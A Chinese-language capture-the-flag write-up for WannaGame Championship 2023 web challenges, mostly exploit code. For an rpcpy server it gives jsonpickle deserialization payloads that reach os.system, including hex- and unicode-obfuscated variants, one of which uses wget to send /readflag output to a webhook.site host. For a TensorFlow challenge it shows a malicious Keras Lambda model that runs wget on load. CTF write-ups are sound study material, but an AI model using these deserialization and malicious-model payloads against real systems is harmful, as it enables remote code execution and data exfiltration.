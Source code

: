 https://nguyendt.hashnode.dev/wannagame-championship-2023
# web
### Bocchi The RPC Server
一个rpc服务器
rpcpy存在[漏洞](https://github.com/ehtec/rpcpy-exploit/)
但是payload里利用的是pickle,题目中注释掉了
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231206233250.png)


可以使用jsonpickle绕过,记得用linux!!
```python
from typing import Any
import requests

import jsonpickle


class PickleRce(object):
    def __reduce__(self):
        import os
        return os.system, ("whoami",)


# 序列化对象为JSON字符串
json_str=jsonpickle.encode(PickleRce())
print(json_str)

```

![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207000506.png)
然后unicode绕过

---

payload
```json
{
    "name": {
        "py/repr": "binascii/().__class__.__base__.__subclasses__().__getitem__(107).load_module(binascii.unhexlify('6f73').decode()).popen(binascii.unhexlify('2e2e2f72656164666c6167').decode()).read()"
    }
}
```

unicode绕过
```json
{
    "name": {
        "py/reduce": [
            {
                "py/function": "p\u006fsix.s\u0079stem"
            },
            {
                "py/tuple": [
                    "wget https://webhook.site/dfb8094f-ab17-41b5-93fa-e6c353fd4fbd --p\u006fst-data $(/readflag)"
                ]
            }
        ]
    }
}
```


### CountingStars
https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model

一个输入经纬度计算星星数的程序,使用了tensorflow,会加载一个模型`counting_stars.h5`
可以搜索到rce,当加载恶意模型的时候

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("wget https://webhook.site/2f815642-00d7-472d-9507-2af34539836a")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("counting_stars.h5")
```

但是这块的逻辑是请求一个模型,如果文件名\=\=`f'{session["dir"]}/{MODEL}'`则重新从上一级目录拿到未污染的模型,但是模型加载的文件名又是固定的
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20231207161321.png)

---
discord上说是条件竞争


### 



# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2023-12-06   22:26